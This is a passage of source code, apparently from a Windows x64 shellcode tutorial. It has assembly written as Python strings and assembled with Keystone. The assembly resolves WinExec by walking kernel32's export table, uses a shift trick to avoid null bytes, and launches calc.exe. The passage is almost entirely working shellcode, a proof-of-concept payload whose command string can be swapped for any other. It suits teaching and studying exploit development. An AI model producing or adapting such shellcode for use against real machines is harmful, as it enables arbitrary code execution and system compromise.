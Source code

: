 ```
        " jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
        "   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
        "   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
        "   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
        "   dec rcx;"                       # Decrement the loop counter
        #"   mov rax, 0x00636578456E6957;"  # Load the ASCII value of 'WinExec' into RAX for comparison          
        # Fix below
        "   mov rax, 0x636578456E6957FF;"   # Load the calculated initial value
        "   shr rax, 0x8;"                  # Shift right by 8 bits to get the desired WinExec string
        "   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
        "   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
        "FunctionNameFound: "
        # Entry point after finding the target function name 'WinExec'
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
        # Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
        "   inc rcx;"
        "   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
        # Preparing to fetch the actual function address from AddressOfFunctions
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
        "   mov eax, [r11+4+r13*4];"        # Fetch the function address RVA using the ordinal as an index
        "   add rax, r8;"                   # Convert function address RVA to absolute address
        "   mov r14, rax;"                  # Store the resolved function address in R14 for later use
        # WinExec Call
        "  xor rax, rax;"                   # Zero RAX to create a null byte
        "  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
        "  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
        "  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
        "  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
        "  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
        "  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
        "  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
        "  call r14;"                       # Call WinExec using the address stored in R14
    )
 
    # Initialize engine in 64-Bit mode
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    instructions, count = ks.asm(SHELLCODE)
 
    sh = b""
    output = ""
    for opcode in instructions:
```